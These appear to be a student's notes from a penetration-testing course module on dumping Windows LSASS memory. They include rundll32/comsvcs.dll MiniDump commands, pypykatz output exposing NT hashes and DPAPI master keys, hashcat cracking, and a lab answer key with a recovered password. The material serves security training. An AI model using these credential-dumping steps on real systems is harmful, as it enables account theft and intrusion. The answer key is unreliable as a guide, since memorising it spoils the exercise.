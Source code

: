 In addition to acquiring copies of the SAM database to extract and crack password hashes, we will also benefit from targeting the [Local Security Authority Subsystem Service (LSASS)](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service). As covered in the `Credential Storage` section of this module, LSASS is a core Windows process responsible for enforcing security policies, handling user authentication, and storing sensitive credential material in memory.

![[Pasted image 20250930143455.png]]

Upon initial logon, LSASS will:
- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows' [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

## Dumping LSASS process memory
Similar to the process of attacking the SAM database, it would be wise for us first to create a copy of the contents of LSASS process memory via the generation of a memory dump. Creating a dump file lets us extract credentials offline using our attack host.

### Task Manager method (First method with GUI)
With access to an interactive graphical session on the target, we can use task manager to create a memory dump. This requires us to:
1. Open `Task Manager`
2. Select the `Processes` tab
3. Find and right click the `Local Security Authority Process`
4. Select `Create dump file`

A file called `lsass.DMP` is created and saved in `%temp%`. This is the file we will transfer to our attack host. We can use the file transfer method discussed in the previous section of this module to transfer the dump file to our attack host.

### Rundll32.exe & Comsvcs.dll method (Second method without GUI)
We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32). This way is faster than the Task Manager method and more flexible because we may gain a shell session on a Windows host with only access to the command line. It is important to note that modern anti-virus tools recognize this method as malicious activity.

Before issuing the command to create the dump file, we must determine what process ID (`PID`) is assigned to `lsass.exe`. This can be done from cmd or PowerShell:

#### Finding LSASS's PID in cmd
From cmd, we can issue the command `tasklist /svc` to find `lsass.exe` and its process ID.

```cmd-session
C:\Windows\system32> tasklist /svc

Image Name                     PID Services
===== ====                     === ========
...
...
lsass.exe                      672 KeyIso, SamSs, VaultSvc
...
...
```

PID : 672
#### Finding LSASS's PID in PowerShell
```powershell
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```
Once we have the PID assigned to the LSASS process, we can create a dump file.

#### Creating a dump file using PowerShell
```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

With this command, we are running `rundll32.exe` to call an exported function of `comsvcs.dll` which also calls the MiniDumpWriteDump (`MiniDump`) function to dump the LSASS process memory to a specified directory (`C:\lsass.dmp`)
If we manage to run this command and generate the `lsass.dmp` file, we can proceed to transfer the file onto our attack box to attempt to extract any credentials that may have been stored in LSASS process memory.

## Using Pypykatz to extract credentials
Pypykatz is an implementation of Mimikatz written entirely in Python. The fact that it is written in Python allows us to run it on Linux-based attack hosts.

Recall that LSASS stores credentials that have active logon sessions on Windows systems. When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time.

#### Running Pypykatz
The command initiates the use of `pypykatz` to parse the secrets hidden in the LSASS process memory dump. We use `lsa` in the command because LSASS is a subsystem of the `Local Security Authority`, then we specify the data source as a `minidump` file, proceeded by the path to the dump file stored on our attack host.

```shell
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```

Let's analyze output:
#### MSV
```shell
sid S-1-5-21-4019466498-1700476312-3544718034-1001
luid 1354633
	== MSV ==
		Username: bob
		Domain: DESKTOP-33E7O54
		LM: NA
		NT: 64f12cddaa88057e06a81b54e73b949b
		SHA1: cba4e545b7ec918129725154b29f055e4cd5aea8
		DPAPI: NA
```
[MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. Pypykatz extracted the `SID`, `Username`, `Domain`, and even the `NT` & `SHA1` password hashes associated with the bob user account's logon session stored in LSASS process memory.

#### WDIGEST
```shell
== WDIGEST [14ab89]==
		username bob
		domainname DESKTOP-33E7O54
		password None
		password (hex)
```
`WDIGEST` is an older authentication protocol enabled by default in `Windows XP` - `Windows 8` and `Windows Server 2003` - `Windows Server 2012`. LSASS caches credentials used by WDIGEST in clear-text. This means if we find ourselves targeting a Windows system with WDIGEST enabled, we will most likely see a password in clear-text. Modern Windows operating systems have WDIGEST disabled by default.
#### Kerberos
```shell
	== Kerberos ==
		Username: bob
		Domain: DESKTOP-33E7O54
```

[Kerberos](https://web.mit.edu/kerberos/#what_is) is a network authentication protocol used by Active Directory in Windows Domain environments. Domain user accounts are granted tickets upon authentication with Active Directory. This ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time. LSASS caches `passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos. It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.

#### DPAPI
```shell
== DPAPI [14ab89]==
		luid 1354633
		key_guid 3e1d1091-b792-45df-ab8e-c66af044d69b
		masterkey e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
		sha1_masterkey 52e758b6120389898f7fae553ac8172b43221605
```
Mimikatz and Pypykatz can extract the DPAPI `masterkey` for logged-on users whose data is present in LSASS process memory. These masterkeys can then be used to decrypt the secrets associated with each of the applications using DPAPI and result in the capturing of credentials for various accounts. More about DPAPI abuse int the Windows PrivEsc Module.

#### Cracking the NT Hash with Hashcat
```shell
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```


### Questions 

1. What is the name of the executable file associated with the Local Security Authority Process?
	`lsass.exe`

2.  Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)

```shell
Connect to machine in RDP and open powershell:

PS> Get-Process lsass
Id
--
648

PS> rundll32.exe C:\windows\system32\comsvcs.dll, MiniDump 648 C:\lsass.dmp full
(Didnt not work for some reason so I used the GUI method)
Put the file into share volume of RDP session to transfer to our local machine.

> pypykatz lsa minidump lsass.DMP
 == MSV ==
		Username: Vendor
		Domain: FS01
		LM: NA
		NT: 31f87811133bc6aaa75a536e77f64314
		SHA1: 2b1c560c35923a8936263770a047764d0422caba
		DPAPI: 0000000000000000000000000000000000000000
		
> hashcat -a 0 -m 1000 '31f87811133bc6aaa75a536e77f64314' /usr/share/wordlists/rockyou.txt
31f87811133bc6aaa75a536e77f64314:Mic@123
```
